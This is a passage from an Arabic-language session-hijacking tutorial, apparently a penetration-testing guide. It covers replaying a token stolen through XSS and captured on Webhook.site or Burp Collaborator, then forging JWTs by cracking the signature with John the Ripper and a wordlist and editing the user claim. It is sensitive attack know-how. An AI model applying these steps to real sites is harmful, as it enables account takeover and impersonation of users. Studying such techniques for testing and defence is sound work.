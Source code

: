 #### ٣. مراقبة الطلب الوارد
- في خادمك البسيط أو Webhook.site

#### ٤. استخدام التوكن في طلب جديد
```http
GET /account HTTP/1.1
Host: target.com
Authorization: Bearer abc123xyz
```

#### 🛠️ الأدوات:
- Chrome DevTools
- Stored/XSS Payloads
- Burp Collaborator

#### 💡 شروط النجاح:
- وجود XSS
- عدم وجود HttpOnly على الكوكيز أو secure storage

---

# 🧪 Session Hijacking – المحاولة 8: سرقة JWT Tokens

### 📌 الفكرة:
JWT هي توكنات مشفرة تُستخدم كـ Session Token. بعضها يمكن فك تشفيره أو إعادة توقيعه.

### ⚙️ الخطوات:

#### ١. التقاط التوكن
- من Authorization Header:
```http
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...
```

#### ٢. فتح التوكن باستخدام jwt.io أو Burp Extension
- payload قد يبدو مثل:
```json
{
  "user": "admin",
  "exp": 123456789
}
```

#### ٣. محاولة فك التوقيع
- باستخدام John The Ripper:
```bash
john jwt.hash --wordlist=rockyou.txt
```

#### ٤. تعديل payload وإعادة التوقيع
- تغيير `"user": "admin"` إلى `"user": "victim"`
